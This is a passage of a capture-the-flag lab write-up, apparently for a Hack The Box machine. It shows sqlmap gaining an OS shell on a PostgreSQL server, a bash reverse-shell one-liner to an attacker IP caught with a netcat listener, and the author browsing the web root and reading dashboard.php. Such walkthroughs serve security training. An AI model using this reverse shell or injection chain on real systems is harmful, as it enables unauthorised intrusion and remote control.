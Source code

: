 ```console
[11:05:16] [INFO] testing connection to the target URL

(...)

[11:05:17] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[11:05:17] [INFO] fingerprinting the back-end DBMS operating system
[11:05:17] [INFO] the back-end DBMS operating system is Linux
[11:05:17] [INFO] testing if current user is DBA
[11:05:18] [INFO] retrieved: '1'
[11:05:18] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[11:05:18] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```

We got a shell! To make it more stable, we will try to establish a new connection via netcat.

In order to do that, we execute a final command after setting up netcat on port 1234.

`bash -c "bash -i >& /dev/tcp/10.10.14.15/1234 0>&1"`

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.102.117] 48120
bash: cannot set terminal process group (4144): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$ whoami
postgres
postgres@vaccine:/var/lib/postgresql/11/main$ pwd
/var/lib/postgresql/11/main
```

Successfully connected via netcat.

Looking around:

```console
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html
cd /var/www/html
postgres@vaccine:/var/www/html$ ls -lah
ls -lah
total 392K
drwxr-xr-x 2 root root 4.0K Jul 23  2021 .
drwxr-xr-x 3 root root 4.0K Jul 23  2021 ..
-rw-rw-r-- 1 root root 355K Feb  3  2020 bg.png
-rw-r--r-- 1 root root 4.7K Feb  3  2020 dashboard.css
-rw-r--r-- 1 root root   50 Jan 30  2020 dashboard.js
-rw-r--r-- 1 root root 2.3K Feb  4  2020 dashboard.php
-rw-r--r-- 1 root root 2.6K Feb  3  2020 index.php
-rw-r--r-- 1 root root 1.1K Jan 30  2020 license.txt
-rw-r--r-- 1 root root 3.2K Feb  3  2020 style.css
postgres@vaccine:/var/www/html$ cat dashboard.php

(...)

<tbody>
        <?php
        session_start();
        if($_SESSION['login'] !== "true") {
          header("Location: index.php");
          die();
        }
        try {
```